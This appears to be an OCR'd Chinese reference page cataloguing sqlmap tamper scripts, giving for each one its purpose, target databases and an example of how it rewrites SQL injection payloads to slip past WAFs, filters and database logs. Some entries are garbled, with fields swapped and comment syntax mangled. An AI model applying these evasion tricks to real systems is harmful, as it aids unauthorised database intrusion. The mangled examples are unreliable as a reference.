 ```
举例：SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers

sp_password.py
功能：在 payload 语句后添加 sp_password ，用于迷惑数据库日志（Space ==> sp_password）
平台：Mssql
举例：1 AND 9227=9227–  ==> 1 AND 9227=9227 – sp_password

symboliclogical.py
功能：用 && 替换 and ，用 || 替换 or ，用于这些关键字被过滤的情况
平台：All
举例：
1 and 1=1 ==> 1 %26%26 1=1
1 or 1=1 ==> 1 %7c%7c 1=1

unionalltounion.py
功能：用 union select 替换 union all select
平台：All
举例：union all select 1,2–+ ==> union select 1,2–+

unmagicquotes.py
功能：用宽字符绕过 GPC addslashes
平台：All
举例：1’ and 1=1 ==> 1% df%27 and 1=1–

uppercase.py
功能：将 payload 中的小写字母转为大写格式
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：insert ==> INSERT

varnish.py
功能：添加一个 HTTP 头 “X-originating-IP” 来绕过 WAF
平台：headers = kwargs.get (“headers”, {}) headers [“X-originating-IP”] = “127.0.0.1”return payload
举例：All

versionedkeywords.py
功能：对非函数的关键字进行注释
平台：MySQL 4.0.18, 5.1.56, 5.5.11
举例：1 union select user () ==> 1/!UNION//!SELECT/user ()

versionedmorekeywords.py
功能：对每个关键字进行注释处理
平台：MySQL 5.1.56, 5.5.11
举例：1 union select user () ==> 1/!UNION//!SELECT/user ()

xforwardedfor.py
功能：添加一个伪造的 HTTP 头 “X-Forwarded-For” 来绕过 WAF
平台：All
举例：headers = kwargs.get (“headers”, {}) headers [“X-Forwarded-For”] = randomIP () return payload
```

#### 编写tamper
